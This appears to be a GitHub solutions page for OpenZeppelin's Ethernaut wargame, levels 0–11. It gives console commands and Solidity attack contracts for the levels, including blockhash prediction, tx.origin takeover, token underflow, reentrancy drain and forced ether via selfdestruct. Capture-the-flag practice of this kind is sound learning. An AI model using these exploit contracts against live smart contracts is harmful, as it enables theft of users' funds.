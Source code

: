 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

https://mumbai.polygonscan.com/tx/0xb479fa5cda3731d1ceb34cd1b7788f30022e31d63eaf4ebc63351c22aa3f3806

## Level 01

https://ethernaut.openzeppelin.com/level/1

```javascript
await contract.owner() 
await contract.contributions("0x2a24869323C0B13Dff24E196Ba072dC790D52479")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```

## Level 02

https://ethernaut.openzeppelin.com/level/2

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Fallout {
    function Fal1out() external payable;
}
```

https://mumbai.polygonscan.com/tx/0x0473d27f57f28a8d48ecfecef2faf4e89f82cd3a79e6af2675faefd0761e44d4

## Level 03

https://ethernaut.openzeppelin.com/level/3

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool) external returns (bool);
}

contract Hack {
    ICoinFlip private immutable coinflip;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _address) {
        coinflip = ICoinFlip(_address);
    }

    function flip() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip.flip(side);
    }    
}
```

call `flip()` until `consecutiveWins` is 10

## Level 04

https://ethernaut.openzeppelin.com/level/4

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address _owner) external;
}

contract HackTelephone {
    constructor(address _address) {
        ITelephone(_address).changeOwner(msg.sender);
    }
}
```

## Level 05

https://ethernaut.openzeppelin.com/level/5

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
    function balanceOf(address _owner) external view returns (uint balance);
}

contract tokenHack {
    IToken private token;

    constructor(address _address) public  {
        token = IToken(_address);
    }

    function transfer(address _to) public {
        uint _value = 115392089237316195423570985008687907853269984665640564039457584007913129639935;
        token.transfer(_to, _value);
    }
}
```

## Level 06

https://ethernaut.openzeppelin.com/level/6

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDelegate {
    function owner() external view returns (address);
    function pwn() external;
}
```

Add more extra gas

## Level 07

https://ethernaut.openzeppelin.com/level/7

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceHack {
    constructor(address payable _address) payable {
        selfdestruct(_address);
    }
}
```

Add amount of ether to send

## Level 08

https://ethernaut.openzeppelin.com/level/8

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IVault {
    function locked() external view returns (bool);
    function unlock(bytes32 _password) external;
}
```

Read the last 64 characters of the input data:
https://mumbai.polygonscan.com/vmtrace?txhash=0xf99f1da3e77c8ef6ab7100f1ed34f0958f5fa8fc6053af2e420d2d9ba3b447a7&type=gethtrace2

## Level 09

https://ethernaut.openzeppelin.com/level/9

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {
    function prize() external view returns (uint);
}

contract KingHack {
    constructor(address payable _target) payable {
        uint value = IKing(_target).prize();
        (bool sent,) = _target.call{value: value}("");
        require(sent, "Failed to send Ether");
    }
}
```

## Level 10

https://ethernaut.openzeppelin.com/level/10

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract Attack {
    IReentrance public Reentrance;

    constructor(address _address) public {
        Reentrance = IReentrance(_address);
    }

    receive() external payable {
        Reentrance.withdraw(1 gwei);
    }

    function attack() external payable {
        Reentrance.donate{value: 1 gwei}(address(this));
        Reentrance.withdraw(1 gwei);
    }
}
```

https://mumbai.polygonscan.com/tx/0xd07180c75c3f4b06a28a6357e6817530c6b206aa91a1c253e3ad65accc3bd183

## Level 11

https://ethernaut.openzeppelin.com/level/11

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint _floor) external;
    function floor() external view returns (uint);
    function top() external view returns (bool);
}

contract Building {
    bool top = true;

    function isLastFloor(uint) external returns (bool) {
        top = !top;
        return top;
    }

    function go(address _address, uint _floor) external {
        IElevator(_address).goTo(_floor);
    }
}
```
